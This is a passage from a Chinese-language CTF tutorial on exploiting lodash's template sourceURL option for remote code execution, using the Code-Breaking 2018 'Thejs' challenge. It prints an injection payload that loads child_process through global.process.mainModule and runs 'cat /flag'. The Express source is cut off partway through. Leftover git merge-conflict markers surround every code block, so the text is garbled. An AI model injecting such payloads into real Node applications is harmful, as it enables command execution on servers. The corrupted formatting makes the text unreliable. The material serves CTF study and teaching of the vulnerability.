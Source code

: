 <<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
// Use a sourceURL for easier debugging.
var sourceURL = 'sourceURL' in options ? '//# sourceURL=' + options.sourceURL + '\n' : '';
// ...
var result = attempt(function() {
  return Function(importsKeys, sourceURL + 'return ' + source)
  .apply(undefined, importsValues);
});
```

将 options.sourceURL 拼接后赋值给 sourceURL，然后作为下面的 Function 的第二个参数。

注意这里使用 global.process.mainModule.constructor.\_load 来调用 child\_process，因为 require ('child\_process') 需要存在 require 函数来供调用，这里并没有

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString()//
```

#### 例题 \[Code-Breaking 2018\] Thejs

源码如下

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
const fs = require('fs')
const express = require('express')
const bodyParser = require('body-parser')
const lodash = require('lodash')
const session = require('express-session')
const randomize = require('randomatic')

const app = express()
app.use(bodyParser.urlencoded({extended: true})).use(bodyParser.json())
app.use('/static', express.static('static'))
app.use(session({
    name: 'thejs.session',
    secret: randomize('aA0', 16),
    resave: false,
    saveUninitialized: false
}))
app.engine('ejs', function (filePath, options, callback) { // define the template engine
    fs.readFile(filePath, (err, content) => {
        if (err) return callback(new Error(err))
        let compiled = lodash.template(content)
        let rendered = compiled({...options})

        return callback(null, rendered)
    })
})
app.set('views', './views')
app.set('view engine', 'ejs')

app.all('/', (req, res) => {
    let data = req.session.data || {language: [], category: []}
```